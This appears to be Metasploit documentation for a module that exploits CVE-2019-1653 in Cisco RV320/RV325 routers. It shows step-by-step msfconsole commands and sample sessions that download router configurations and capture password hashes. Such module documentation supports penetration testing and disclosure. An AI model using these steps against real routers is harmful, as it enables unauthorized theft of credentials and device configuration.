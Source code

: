 ## Vulnerable Application

[CVE-2019-1653](https://nvd.nist.gov/vuln/detail/CVE-2019-1653) (aka Cisco Bugtracker ID [CSCvg85922](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190123-rv-info)) is an unauthenticated disclosure of device configuration information for the Cisco RV320/RV325 small business router.  The vulnerability was responsibly disclosed by [RedTeam Pentesting GmbH](https://seclists.org/fulldisclosure/2019/Jan/52).

An exposed remote administration interface (on :443) would allow an attacker to retrieve password hashes and other sensitive device configuration information.  On version `1.4.2.15`, the vulnerability is exploitable via the WAN interface on port 8007 (by default) or 443 (if remote administration is enabled), in addition to port 443 on the LAN side.  On version `1.4.2.17`, only LAN port 443 is accessible by default, but user configuration can open port 443 for remote management on the WAN side, making the device vulnerable externally.

More context is available from [Rapid7's blog post](https://blog.rapid7.com/2019/01/29/cisco-r-rv320-rv325-router-unauthenticated-configuration-export-vulnerability-cve-2019-1653-what-you-need-to-know/).


## Verification Steps

 1. Start `msfconsole`
 2. `use auxiliary/gather/cisco_rv320_config`
 3. `set RHOSTS 192.168.1.1` (default LAN IP) or to the WAN interface
 4. `run`
 5. Review the downloaded configuration file cited in the output.  For example:
>```
>[+] Stored configuration (128658 bytes) to /home/administrator/.msf4/loot/20190206213439_default_192.168.1.1_cisco.rv.config_791561.txt
>```
 6. If the database is connected, review the `hosts`, `creds`, and `loot` commands

## Options

*SSL*: Should be set to 'true' for port 443 and set to 'false' for port 80 or port 8007.

*TARGETURI*: Should point to the `/cgi-bin/config.exp` endpoint and likely should never be changed.

## Scenarios

#### Against firmware version 1.4.2.15, on the LAN interface, port 443:

```
msf >
msf > use auxiliary/gather/cisco_rv320_config
msf auxiliary(gather/cisco_rv320_config) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf auxiliary(gather/cisco_rv320_config) > run

[+] Stored configuration (128628 bytes) to /home/administrator/.msf4/loot/20190206165015_default_192.168.1.1_cisco.rv.config_434637.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Against firmware version 1.4.2.15, on the WAN interface, port 8007:

```
msf >
msf > use auxiliary/gather/cisco_rv320_config
msf auxiliary(gather/cisco_rv320_config) > set RHOSTS 203.0.113.54
RHOSTS => 203.0.113.54
msf auxiliary(gather/cisco_rv320_config) > set RPORT 8007
RPORT => 8007
msf auxiliary(gather/cisco_rv320_config) > set SSL false
SSL => false
msf auxiliary(gather/cisco_rv320_config) > run

[+] Stored configuration (128628 bytes) to /home/administrator/.msf4/loot/20190206165015_default_203.0.113.54_cisco.rv.config_434637.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Against firmware version 1.4.2.17, on the LAN interface, port 443:

```
msf >
msf > use auxiliary/gather/cisco_rv320_config
msf auxiliary(gather/cisco_rv320_config) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf auxiliary(gather/cisco_rv320_config) > run

[+] Stored configuration (128628 bytes) to /home/administrator/.msf4/loot/20190206165015_default_192.168.1.1_cisco.rv.config_434637.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Against newer firmware (>= 1.4.2.19), on the LAN interface, port 443:

```
msf >
msf > use auxiliary/gather/cisco_rv320_config
msf auxiliary(gather/cisco_rv320_config) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf auxiliary(gather/cisco_rv320_config) > run

[-] Auxiliary aborted due to failure: not-vulnerable: Response suggests device is patched
[*] Auxiliary module execution completed
```

#### If module succeeds, check the database:

```
msf auxiliary(gather/cisco_rv320_config) > hosts

Hosts
=====

address      mac                name          os_name  os_flavor  os_sp  purpose  info  comments
-------      ---                ----          -------  ---------  -----  -------  ----  --------
203.0.113.54 70:E4:22:94:E7:20  router94e720  Cisco    RV320                            
192.168.1.1  70:E4:22:94:E7:20  router94e720  Cisco    RV320                            
```

```
msf auxiliary(gather/cisco_rv320_config) > creds
Credentials
===========

host         origin       service          public  private                            realm  private_type
----         ------       -------          ------  -------                            -----  ------------
203.0.113.54 192.168.1.1  8007/tcp (http)  cisco   $1$mldcsfp$gCrnS7A0ta6E5EzwDiZ9t/         Nonreplayable hash
192.168.1.1  192.168.1.1  443/tcp (https)  cisco   $1$mldcsfp$gCrnS7A0ta6E5EzwDiZ9t/         Nonreplayable hash
```

```
msf auxiliary(gather/cisco_rv320_config) > loot

Loot
====

host         service  type             name  content     info  path
----         -------  ----             ----  -------     ----  ----
203.0.113.54          cisco.rv.config        text/plain        /home/administrator/.msf4/loot/20190206213439_default_203.0.113.54_cisco.rv.config_791561.txt
192.168.1.1           cisco.rv.config        text/plain        /home/administrator/.msf4/loot/20190206211312_default_192.168.1.1_cisco.rv.config_412095.txt
```
